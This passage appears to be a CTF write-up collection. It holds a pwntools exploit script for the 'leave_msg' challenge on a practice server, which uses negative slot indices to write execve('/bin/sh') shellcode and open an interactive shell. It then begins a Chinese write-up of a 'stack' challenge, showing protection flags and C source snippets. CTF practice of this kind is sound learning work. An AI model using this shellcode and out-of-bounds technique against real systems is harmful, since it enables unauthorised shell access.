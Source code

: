 ```python
from pwn import *

#context.log_level="debug"
#p = process("./leave_msg")
p = remote("ctf.hackme.quest",7715)


print(p.recvuntil(b'message:\n'))
p.send(b"\x31\xc0\xc3\x00")
print(p.recvuntil(b"slot?\n"))
p.send(b" -15")

print(p.recvuntil(b'message:\n'))
p.send(b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
print(p.recvuntil(b"slot?\n"))
p.send(b" -16")

p.sendline(b"ls")
p.interactive()
```

#### 73 Pwn    stack

write up：

文件的保护全都开了。

```sh
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

对比一下源码和反汇编代码。

```c
struct stack {
    int n;
    int data[4096];
//    int data[64];
};


	case 'p':
    if (s.n > 0) {
        printf("Pop -> %d\n", stack_pop(&s));
    } else {
        printf("Error: stack is empty\n");
    }
    //printf("Pop -> %d\n", stack_pop(&s));
    break;
```
